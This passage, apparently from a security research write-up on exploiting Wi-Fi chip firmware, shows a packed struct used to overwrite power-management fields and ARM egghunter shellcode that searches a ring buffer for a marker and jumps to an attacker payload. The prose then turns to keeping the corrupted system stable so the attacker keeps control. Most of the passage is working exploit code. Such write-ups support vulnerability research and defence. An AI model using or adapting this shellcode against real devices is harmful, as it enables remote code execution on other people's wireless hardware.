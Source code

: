   uint32_t pm_st_field_14_62;  
  uint32_t pm_st_field_18_apsd_trigger_timer_66;  
  uint32_t pm_st_field_1c_70;  
  uint32_t pm_st_field_20_74;  
  uint32_t pm_st_field_24_78;  
  uint32_t pm_st_field_28_82;  
  uint32_t pm_st_field_2c_86;  
  uint32_t pm_st_field_30_90;  
  uint32_t pm_st_field_34_94;  
  uint32_t pm_st_field_38_pm2_rcv_timer_98;  
  uint32_t pm_st_field_3c_pm2_ret_timer_102;  
  uint32_t pm_st_field_40_shellcode_start_106;  
  uint32_t pm_st_field_44_110;  
  uint32_t pm_st_field_48_114;  
  uint32_t pm_st_field_4c_118;  
  uint32_t pm_st_field_50_122;  
  uint32_t pm_st_field_54_126;  
  uint32_t pm_st_field_58_130;  
  uint32_t pm_st_field_5c_134;  
  uint32_t pm_st_field_60_egghunt_138;  
  uint32_t pm_st_field_64_142;  
  uint32_t pm_st_field_68_146; // <- End  
  uint32_t pm_st_field_6c_150;  
  uint32_t pm_st_field_70_154;  
  uint32_t pm_st_field_74_158;  
  uint32_t pm_st_field_78_size_162;  
  uint32_t bss_info_field_0_mac1_166;  
  uint32_t bss_info_field_4_mac2_170;  
  struct shellcode_ssid ssid;
} STRUCT_PACKED;
And this is the shellcode which carries out the egghunt:

__attribute__((naked)) voidshellcode_start(void) {  
  asm("push {r0-r3,lr}\n"           
      "bl egghunt\n"            
      "pop {r0-r3,pc}\n");
}

void egghunt(unsigned int cpsr) {  
  unsigned int egghunt_start = RING_BUFFER_START;  
  unsigned int *p = (unsigned int *) egghunt_start;  
  void (*f)(unsigned int);
  loop:  
  p++;  
  if (*p != 0xc0deba5e)    
    goto loop;  
  f = (void (*)(unsigned int))(((unsigned char *) p) + 5);  
  f(cpsr);  
  return;
}
So we have a jump to our payload, but is that all we need to do? Remember that we have seriously corrupted the wlc->pm object, and the system will not remain stable for long if we leave it that way. Also recall that one of our main objectives is to avoid crashing the system – an exploit which gives an attacker transient control is of limited value.
